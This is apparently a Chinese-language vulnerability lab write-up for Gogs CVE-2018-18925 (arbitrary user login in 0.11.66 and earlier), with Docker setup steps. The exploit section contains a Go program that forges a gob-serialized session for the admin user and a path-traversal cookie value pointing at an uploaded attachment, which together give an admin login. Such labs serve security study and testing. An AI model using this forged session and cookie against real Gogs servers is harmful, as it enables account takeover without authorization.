


# Gogs 任意用户登录漏洞（CVE-2018-18925）

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

参考链接：

- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575

## 环境启动

执行如下命令启动gogs：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

## 漏洞利用

使用Gob序列化生成session文件：

```go
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
    "os"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}
```

然后注册一个普通用户账户，创建项目，并在“版本发布”页面上传刚生成的session文件：



通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：



完整的利用过程与原理，可以阅读参考链接中的文章。
